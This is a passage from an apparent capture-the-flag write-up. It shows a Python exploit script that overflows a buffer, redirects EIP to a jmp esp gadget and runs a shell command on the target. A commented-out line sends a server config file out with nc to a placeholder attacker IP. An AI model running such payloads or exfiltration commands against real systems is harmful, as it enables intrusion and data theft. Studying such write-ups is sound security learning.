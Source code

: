 ```py

scfile = open("shellc2.asm", "r")
sc = scfile.read()
shellcode = asm(sc)

pwn = shellcode
pwn += 'A'*(0x68-len(shellcode))
pwn += pack(0xe4ffffe4)
pwn += 'BBBB'
pwn += pack(0x0804936b) #eip control here! jmp esp which is pointing to the below instructions
pwn += subesp
cmd = "/bin/netstat -tan\x00"
#cmd = '/bin/cat /gnome/www/files/gnome.conf | /bin/nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT\x00'
pwn += cmd
pwn += 'C'*(0x56-len(subesp)-len(cmd))

print '----'
print 'Sending payload'
print '----'

conn.send(pwn)
pause(9)	# pause to keep the socket alive. program will write reply into the socket
results = conn.recvall()
print results

fh = open('results', 'w')	# write response to file, handles file downloads
fh.write(results)
fh.close
```

It works perfectly on the local copy of the binary. Running it against the actual server
